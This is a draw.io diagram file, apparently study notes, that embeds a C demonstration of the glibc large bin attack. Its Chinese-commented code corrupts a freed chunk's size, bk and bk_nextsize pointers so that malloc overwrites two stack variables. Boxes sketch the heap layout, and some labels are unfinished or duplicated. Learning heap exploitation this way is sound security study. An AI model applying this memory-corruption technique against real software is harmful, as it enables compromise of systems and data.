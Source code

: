 <mxfile version="23.1.1" type="github">
  <diagram name="第 1 页" id="StGOxZ_9_frYLXdIoDuh">
    <mxGraphModel dx="2331" dy="399" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="827" pageHeight="1169" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="g7S3FFpujZysDaOgMtKl-1" value="unsigned long stack_var1 = 0;&#xa;unsigned long stack_var2 = 0;" style="text;whiteSpace=wrap;" parent="1" vertex="1">
          <mxGeometry x="10" y="50" width="190" height="40" as="geometry" />
        </mxCell>
        <mxCell id="g7S3FFpujZysDaOgMtKl-2" value="unsigned long *p1 = malloc(0x320);&#xa;fprintf(stderr, &quot;现在，我们在堆上分配第一个大块的地址为：%p\n&quot;, p1 - 2);&#xa;&#xa;&#xa;fprintf(stderr, &quot;然后分配另一个 fastbin 块，以避免在 free() 期间将下一个大块与第一个大块合并\n\n&quot;);&#xa;malloc(0x20);&#xa;&#xa;&#xa;unsigned long *p2 = malloc(0x400);&#xa;fprintf(stderr, &quot;然后，在堆上分配第二个大块的地址为：%p\n&quot;, p2 - 2);&#xa;&#xa;&#xa;fprintf(stderr, &quot;然后分配另一个 fastbin 块，以避免在 free() 期间将下一个大块与第二个大块合并\n\n&quot;);&#xa;malloc(0x20);&#xa;&#xa;&#xa;unsigned long *p3 = malloc(0x400);&#xa;fprintf(stderr, &quot;最后，在堆上分配第三个大块的地址为：%p\n&quot;, p3 - 2);&#xa;&#xa;&#xa;fprintf(stderr, &quot;然后分配另一个 fastbin 块，以避免在 free() 期间将顶部块与第三个大块合并\n\n&quot;);&#xa;malloc(0x20);&#xa;&#xa;&#xa;free(p1);&#xa;free(p2);&#xa;fprintf(stderr, &quot;现在我们释放第一个和第二个大块，它们将被插入未排序的 bin 中：%p &lt;--&gt; %p\n\n&quot;,&#xa;        (void *)(p2 - 2), (void *)(p2[0]));&#xa;&#xa;&#xa;void* p4 = malloc(0x90);&#xa;fprintf(stderr, &quot;现在，我们分配一个大小小于释放的第一个大块的块。这将把释放的第二个大块移动到大型 bin 空闲列表中，使用释放的第一个大块的部分进行分配，并重新将剩余的释放的第一个大块插入未排序的 bin 中：%p\n\n&quot;,&#xa;        (void *)((char *)p1 + 0x90));&#xa;&#xa;&#xa;free(p3);&#xa;fprintf(stderr, &quot;现在，我们释放第三个大块，它将被插入未排序的 bin 中：%p &lt;--&gt; %p\n\n&quot;,&#xa;        (void *)(p3 - 2), (void *)(p3[0]));&#xa;&#xa;&#xa;//------------VULNERABILITY-----------&#xa;&#xa;&#xa;fprintf(stderr, &quot;现在模拟一个可以覆盖释放的第二个大块的“size”以及其“bk”和“bk_nextsize”指针的漏洞\n&quot;);&#xa;fprintf(stderr, &quot;基本上，我们减少了释放的第二个大块的大小，以强制 malloc 将释放的第三个大块插入到大型 bin 空闲列表的开头。为了覆盖堆栈变量，我们将“bk”设置为在 stack_var1 之前 16 字节，并将“bk_nextsize”设置为在 stack_var2 之前 32 字节\n\n&quot;);&#xa;&#xa;&#xa;p2[-1] = 0x3f1;&#xa;p2[0] = 0;&#xa;p2[2] = 0;&#xa;p2[1] = (unsigned long)(&amp;stack_var1 - 2);&#xa;p2[3] = (unsigned long)(&amp;stack_var2 - 4);&#xa;&#xa;&#xa;//------------------------------------&#xa;&#xa;&#xa;malloc(0x90);&#xa;&#xa;&#xa;fprintf(stderr, &quot;让我们再次调用 malloc，这样释放的第三个大块将被插入到大型 bin 空闲列表中。在此期间，目标应该已经被重写了：\n&quot;);&#xa;&#xa;&#xa;fprintf(stderr, &quot;stack_var1 (%p): %p\n&quot;, &amp;stack_var1, (void *)stack_var1);&#xa;fprintf(stderr, &quot;stack_var2 (%p): %p\n&quot;, &amp;stack_var2, (void *)stack_var2);" style="text;whiteSpace=wrap;" parent="1" vertex="1">
          <mxGeometry x="-1050" y="650" width="1460" height="1090" as="geometry" />
        </mxCell>
        <mxCell id="g7S3FFpujZysDaOgMtKl-3" value="&lt;span style=&quot;color: rgb(0, 0, 0); font-family: Helvetica; font-size: 12px; font-style: normal; font-variant-ligatures: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; orphans: 2; text-align: left; text-indent: 0px; text-transform: none; widows: 2; word-spacing: 0px; -webkit-text-stroke-width: 0px; background-color: rgb(251, 251, 251); text-decoration-thickness: initial; text-decoration-style: initial; text-decoration-color: initial; float: none; display: inline !important;&quot;&gt;unsigned long *p1 = malloc(0x320);&lt;/span&gt;" style="text;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="10" y="120" width="210" height="40" as="geometry" />
        </mxCell>
        <mxCell id="g7S3FFpujZysDaOgMtKl-4" value="" style="rounded=0;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="540" y="1200" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="g7S3FFpujZysDaOgMtKl-5" value="" style="rounded=0;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="520" y="990" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="g7S3FFpujZysDaOgMtKl-6" value="" style="rounded=0;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="940" y="990" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="g7S3FFpujZysDaOgMtKl-7" value="" style="rounded=0;whiteSpace=wrap;html=1;" parent="1" vertex="1">
          <mxGeometry x="740" y="990" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="g7S3FFpujZysDaOgMtKl-8" value="unsorted" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" parent="1" vertex="1">
          <mxGeometry x="400" y="1060" width="60" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Vp2Y29IAKWfL_nbuRybc-1" value="p1" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="170" y="200" width="60" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Vp2Y29IAKWfL_nbuRybc-2" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="300" y="150" width="120" height="160" as="geometry" />
        </mxCell>
        <mxCell id="Vp2Y29IAKWfL_nbuRybc-4" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="300" y="150" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Vp2Y29IAKWfL_nbuRybc-5" value="0x331" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="300" y="180" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Vp2Y29IAKWfL_nbuRybc-6" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.75;exitDx=0;exitDy=0;entryX=0.02;entryY=0.455;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1" source="Vp2Y29IAKWfL_nbuRybc-1" target="Vp2Y29IAKWfL_nbuRybc-2">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="Vp2Y29IAKWfL_nbuRybc-7" value="&amp;amp;stack_var1=0x7fffffffde98" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="-140" y="190" width="200" height="30" as="geometry" />
        </mxCell>
        <mxCell id="Vp2Y29IAKWfL_nbuRybc-8" value="&amp;amp;stack_var1=0x7fffffffdea0" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="-140" y="260" width="200" height="30" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
